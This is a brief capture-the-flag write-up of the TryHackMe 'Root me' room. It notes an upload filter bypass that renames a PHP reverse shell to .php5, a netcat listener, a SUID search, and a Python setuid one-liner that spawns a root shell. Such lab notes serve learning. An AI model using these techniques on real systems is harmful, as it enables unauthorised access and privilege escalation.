 # Root me 🧭
Names | Details
--------|-----
Source | tryhackme
Level     | easy
Os | linux

**Notes :**




## Gaining Access 😉

- PHP reverse shell uploaded as .php5 extesion
- netcat to listen on port



## Maintaining Access 🥷
- SUID Permission
	- /usr/bin/python


## Important commands 🔥
- find / -perm /4000
	```python
	/usr/bin/python -c 'import os; os.setuid(0); os.system("/bin/sh")'
	```

## Post Exploitation ✴️
- User flag : /home/user
- Root flag : /root/root
## Tips 💡
- it's possible to bypass .php Extesions filter by renaming it as .php5
- used python script for privilege escalation 


--------------------------------
**By Nibras Muhammed** 🤓🖥️






